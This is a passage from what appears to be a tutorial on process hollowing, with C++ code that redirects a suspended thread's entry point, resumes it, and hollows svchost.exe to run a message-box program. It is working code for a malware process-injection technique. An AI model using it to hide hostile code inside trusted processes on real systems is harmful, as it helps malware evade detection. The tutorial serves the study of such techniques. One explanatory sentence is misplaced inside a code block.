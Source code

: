 ```cpp
LPCONTEXT pContext = new CONTEXT();
pContext->ContextFlags = CONTEXT_INTEGER;
 
printf("Getting thread context\r\n");
 
if (!GetThreadContext(pProcessInfo->hThread, pContext))
{
      printf("Error getting context\r\n");
      return;
}
```
 
After the thread context has been acquired the EAX member is set to the sum of the base address and the entry point address of the source image.

```cpp
DWORD dwEntrypoint = (DWORD)pPEB->ImageBaseAddress +
      pSourceHeaders->OptionalHeader.AddressOfEntryPoint;
 
pContext->Eax = dwEntrypoint;
 
The thread context is then set, applying the changes to the EAX register

printf("Setting thread context\r\n");
 
if (!SetThreadContext(pProcessInfo->hThread, pContext))
{
      printf("Error setting context\r\n");
      return;
}
```
 
Finally, the thread is resumed, executing the entry point of the source image.                     

```cpp
printf("Resuming thread\r\n");
 
if (!ResumeThread(pProcessInfo->hThread))
{
      printf("Error resuming thread\r\n");
      return;
}
```
 
The hollowing function is now ready to use. To test it, svchost.exe (the Windows service host) is hollowed out and replaced with a simple application that displays a message box.

```cpp
int _tmain(int argc, _TCHAR* argv[])
{
      char* pPath = new char[MAX_PATH];
      GetModuleFileNameA(0, pPath, MAX_PATH);
      pPath[strrchr(pPath, '\\') - pPath + 1] = 0;
      strcat(pPath, "helloworld.exe");
     
      CreateHollowedProcess
      (
            "svchost",
            pPath
      );
 
      system("pause");
 
      return 0;
}
```
 
